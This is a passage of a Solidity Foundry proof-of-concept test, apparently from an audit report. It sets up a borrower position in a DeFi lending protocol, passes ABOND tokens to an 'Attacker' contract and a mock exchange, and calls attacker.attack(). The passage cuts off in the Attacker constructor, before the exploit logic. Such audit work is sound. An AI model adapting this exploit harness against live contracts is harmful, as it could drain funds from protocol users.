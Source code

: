 ```solidity
        Attacker attacker = new Attacker(address(contractsB.borrow), address(contractsB.abond), USER, address(exchange));
        vm.label(address(attacker), "Attacker");

        {
            vm.startPrank(USER);

            uint64 index = 1;
            Treasury.GetBorrowingResult memory getBorrowingResult = contractsB.treasury.getBorrowing(USER, index);
            Treasury.DepositDetails memory depositDetail = getBorrowingResult.depositDetails;

            uint256 currentCumulativeRate = contractsB.borrow.calculateCumulativeRate();
            contractsB.usda.mint(USER, 1 ether); // @audit so there are enough funds (doesn't affect the PoC)
            uint256 tokenBalance = contractsB.usda.balanceOf(USER);

            if ((currentCumulativeRate * depositDetail.normalizedAmount) / 1e27 > tokenBalance) {
                return;
            }

            contractsB.usda.approve(address(contractsB.borrow), tokenBalance);
            vm.deal(USER, globalFee.nativeFee);
            contractsB.borrow.withDraw{value: globalFee.nativeFee}(
                USER, index, "0x", "0x", ethPrice, uint64(block.timestamp)
            );

            // @audit Attacker acquiring ABOND
            contractsB.abond.transfer(address(attacker), contractsB.abond.balanceOf(USER) / 12);
            contractsB.abond.transfer(address(exchange), contractsB.abond.balanceOf(USER)); // funding the "exchange"

            vm.stopPrank();
        }

        vm.warp(block.timestamp + 25920);
        vm.roll(block.number + 2160);

        {
            contractsB.borrow.calculateCumulativeRate();

            attacker.attack();
        }
    }

import {Borrowing} from "../../contracts/Core_logic/borrowing.sol";
import {ABONDToken} from "../../contracts/Token/Abond_Token.sol";

contract Attacker {
    Borrowing borrowing;
    ABONDToken abond;
    address USER_PROVIDER;
    uint256 counter = 0;
    uint256 withdrawedInTheFirstCall = 0;
    uint256 accumulator = 0;
    ExchangeAbond exchange;
  
    constructor(address _borrowing, address _abond, address _userProvider, address _exchange) {
        borrowing = Borrowing(_borrowing);
        abond = ABONDToken(_abond);
        USER_PROVIDER = _userProvider;
        abond.approve(address(borrowing), type(uint256).max);
        exchange = ExchangeAbond(_exchange);
```